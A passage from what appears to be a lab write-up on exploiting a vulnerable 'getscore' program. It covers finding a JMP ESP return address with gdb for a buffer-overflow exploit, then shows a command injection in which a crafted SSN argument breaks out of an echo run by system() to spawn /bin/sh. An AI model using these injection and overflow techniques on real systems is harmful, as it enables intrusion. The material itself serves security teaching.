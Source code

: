 And finally, we can concatenate the shellcode to the previous bytes.

To find a JMP ESP address, I wrote the script *bash-script.sh*. One of the files that this
script generates is called *gold-adresses.txt*, and it will have several addresses that
contain said JMP ESP. I chose 0x421276c7 because it worked! So I hardwired it into the
exploit script.

This is the bash script:

```bash
echo "Running... Be patient"
echo "b main" > gdb-commands.txt;
echo "r" >> gdb-commands.txt;
./printSeveralAddresses.py >> gdb-commands.txt;
gdb -batch -x gdb-commands.txt --args ./getscore > instructions.txt;
cat instructions.txt | tr -d " " | tr -d "\t" | grep ':jmp\*%esp' > jmp-esp-instructions.txt;
./findJmpEsp.py;
```


## Other Vulnerability in the Program: a bash injection

When getscore is logging failed attempts in error.log, it does so by executing the
echo command with some arguments such as the name and the SSN that are formatted
into a string.

```C
sprintf(command, "echo \"%s: Invalid user name or SSN: %s,%s\" | cat >> error.log", ctime(&current_time), argv[1], argv[2]);

if (system(command))
    perror("Logging");
```

We can take advantage of this by appending a second command to be executed just
after the echo command; and we know that in Linux, that could be done with a semicolon.

To inject the desired characters into the SSN, we first need to give it a double quote
so that the message to be echoed is finished. To be able to send a double quote, we have
to escape it with a backslash, like: `\"`

Then we are able to place the semicolon that will allow us to execute whatever we want
after the echo.

Because we want a shell, we choose /bin/sh as that command.

Because we already closed the double quotes of the echo message, we have to add a `#`
symbol (a comment in bash) to let bash know that we are not start a new quote.

The bash injection can be executed like this:
```bash
./getscore a "$(printf " \" ; /bin/sh #")"



